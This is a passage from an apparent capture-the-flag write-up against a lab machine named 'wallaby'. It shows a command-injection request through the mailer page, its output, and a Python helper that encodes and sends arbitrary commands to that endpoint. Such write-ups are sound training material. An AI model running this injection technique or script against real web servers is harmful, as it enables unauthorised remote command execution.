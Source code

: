 With some manual inspection of the mailer page, I found our entry point

root@kali:~/wallaby# curl  'http://wallaby/?page=mailer&mail=id'
...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<h2 style='color:blue;'>Coming Soon guys!</h2>


We have remote command execution!

root@kali:~/wallaby# curl  'http://wallaby/?page=mailer&mail=ls%20-R'
...
.:
eye.jpg
index.php
levelone.txt
s13!34g$3FVA5e@ed
sec.png
./s13!34g$3FVA5e@ed:
althome.php
blacklist.php
contact.php
first_visit.php
home.php
honeypot.php
index.php
mailer.php
welcome.php
...
We tinkered with this manually to explore things, getting a list of running processes and so on. It didn't take long for that to become tedious, so we whipped up a trivial Python script to make things easier.

root@kali:~/wallaby# cat ~/src/wallaby/pcurl.py
#!/usr/bin/env python3

import argparse
import urllib.parse
import requests

parser = argparse.ArgumentParser()
parser.add_argument("--command", "-c", help="command to encode in URL-friendly format")
parser.add_argument("--sendit", "-s", help="send the request", action='store_true')

args = parser.parse_args()

html_form_value = urllib.parse.quote_plus(args.command)

if args.sendit:
    baseurl = 'http://wallaby/?page=mailer&mail='
    url = baseurl + html_form_value
    r = requests.get(url)
    print(r.text, "\n", r.status_code)
else:
    print(html_form_value)
Getting a Foothold
Now we have a vector for attack, and we need to get a more firm foothold as the www-data user. First we tried to attack PHP, because it's PHP, and appeared to be an older version, and possibly misconfigured. We didn't make much progress though, even though it was now very easy to run commands against the box.

